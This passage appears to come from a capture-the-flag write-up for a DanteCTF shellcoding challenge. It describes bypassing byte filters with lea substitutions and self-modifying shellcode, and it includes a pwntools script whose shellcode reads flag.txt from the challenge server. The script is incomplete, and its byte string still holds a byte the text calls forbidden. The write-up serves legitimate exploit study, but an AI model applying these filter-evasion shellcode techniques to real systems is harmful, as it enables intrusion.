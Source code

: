 all the `mov x, y` cmds, can be just changed to `lea x, [y]`, which does the exact same thing and removes the 0x48 forbidden byte.

now we just need to thing about the syscall instruction. BUT, the only way to communicate with the os, is with this instruction, and there are not other ways to do a syscall.

So what can we do?
Well, thats when Self Modifing Shellcode comes into play.

the invalid opcodes is 0f 05, right?
BUT, the shellcode is on the stack! its just a constant offset from our friend RSP.

So we can just enter 0x0e and 0x4 as our opcode, and one instruction before them we can do `inc [rsp+offset]; inc [rsp+offset+1]`!

which will modify to the right instruction right before it gets called!

Exploit:

```py
from pwn import *
from ae64 import AE64


context.arch='amd64'

p = remote('challs.dantectf.it',31532)
p.recvline()


shellcode = """
    /* open(file='flag.txt', oflag=0, mode=0) */
    /* push b'flag.txt\x00' */
    push 1
    dec byte ptr [rsp]
    mov rax, 0x7478742e67616c66
    push rax
    lea rdi, [rsp]
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read('rax', 'rsp', 0x50) */
    mov rdi, rax
    xor eax, eax /* SYS_read */
    push 0x50
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd=1, buf='rsp', n='rax') */
    push 1
    pop rdi
    mov rdx, rax
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall

"""

shell = b'\x6a\x01\xfe\x0c\x24\x48\xb8\x66\x6c\x61\x67\x2e\x74\x78\x74\x50'
shell += b'\x48\x8d\x3c\x24' # lea rdi, [rsp]
shell += b'\x31\xd2\x31\xf6\x6a\x02\x58'

```